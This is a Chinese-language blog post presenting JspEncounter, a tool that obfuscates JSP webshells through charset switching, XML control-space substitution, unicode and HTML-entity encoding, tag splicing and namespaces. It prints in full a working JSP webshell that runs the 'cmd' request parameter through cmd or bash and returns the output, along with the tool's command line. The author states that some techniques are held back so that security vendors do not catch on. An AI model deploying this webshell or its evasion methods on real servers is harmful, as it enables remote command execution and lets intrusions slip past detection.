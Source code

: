 # JSP下的白魔法：JspEncounter

@turn1tup

## 前言

​		这几天看到以前整活的一些有趣的JSP编码手法被补天的分享会提及到，想到有大佬与前些年的笔者一样，发现了这个手法，然后也一样不吝啬分享出来，不免与有荣焉。

​		竟然如此，笔者索性抽出咸鱼时间编写了一个小工具，帮助广大同学们学习该手法，而对应的原理实在枯燥乏味，就算笔者了然，但这最好还是给有心之人可自行查看吧，本文爽就完事了。

​		接下来直接阐述工具相应的矩阵手法及使用效果，而工具使用的注意项及等信息则请在github查看 ：

​		https://github.com/turn1tup/JspEncounter

## 矩阵手法

被工具转换前的原始source.jsp文件内容为：

```jsp
<%@page import="java.util.*,java.io.*" contentType="text/html" %>
<%! class Test{} %>
<%

    if (request.getParameter ("cmd") != null) {
        boolean isWin = System.getProperty("os.name").toUpperCase().contains("WIN");
        String[] cmd = {isWin?"cmd":"/bin/bash",isWin?"/c":"-c",request.getParameter("cmd")};
        InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
        OutputStream outputStream = response.getOutputStream();
        int a;
        outputStream.write(String.valueOf(System.currentTimeMillis()).getBytes());
        while((a=inputStream.read())!=-1){
            outputStream.write(a);
        }
    }

%>
```

工具命令为：

```
java  "-Dfile.encoding=utf-8" -jar JspEncounter.jar -m jsp -c matrix.xlsx -s source.jsp -o result.jsp
```



### magic charset

我们打开 `matrix.xlsx`进行配置，这里配置输出单种字符集文件：

![all_cp037](JSP下的白魔法/magic_charset.png)

执行命令后，输出的编码后的文件:

![magic_charset_demo](JSP下的白魔法/magic_charset_demo.png)

### declare charset

![declare_charset](JSP下的白魔法/declare_charset.png)

demo（放前后都可）:

![declare_charset_demo](JSP下的白魔法/declare_charset_demo.png)



### double chraset

双重字符集，这里以前文UTF-16BE 后文CP037为例：

![double_charset](JSP下的白魔法/double_charset.png)



![double_charset_demo](JSP下的白魔法/double_charset_demo.png)

### controller space

xml 1.1版本下，将标签内的左右括号进行对应的字符替换，该模式目前支持的字符集为utf-8/iso-8859-1/utf-16：

![controller_space](JSP下的白魔法/controller_space.png)

UTF-8字符集情况下：

![controller_space_demo](JSP下的白魔法/controller_space_demo.png)

ISO-8859-1情况下的特殊空白字符：

![controller_space_demo](JSP下的白魔法/controller_space_demo2.png)

### unicode & entity

这里使用双重编码对标签内的代码进行编码，即使用 unicode + html entity：

![entity](JSP下的白魔法/entity.png)



![eneity_demo](JSP下的白魔法/eneity_demo.png)



### ext tags

将代码拼接到 setProperty/useBean标签的属性中 ，该手法参考补天会议：

![exttag](JSP下的白魔法/exttag.png)

![exttag_demo](JSP下的白魔法/exttag_demo.png)

### namespace

![namespace](JSP下的白魔法/namespace.png)



![namespace](JSP下的白魔法/namespace_demo.png)

## 结语

​		通过本工具我们可以便捷地了解JSP中的这些编码手法，各手法的组合需要他们的逻辑不冲突，而某些手法组合的代码实现比较麻烦，笔者就暂先没有整，大家可自行探索。当然，笔者也稍微藏了一手，毕竟如果厂商都明白了，那我们实战起来也就不那么痛快了，但如果你能真正弄懂这个矩阵中的手法，相信也能发现其他手法。而相对整个webshell的混淆知识的图谱来说，本文也只是一角。

## Reference

https://www.anquanke.com/post/id/210630

https://www.anquanke.com/post/id/209826

`extTag setProperty/useBean拼接代码手法` 参考补天2022 webshell黑魔法



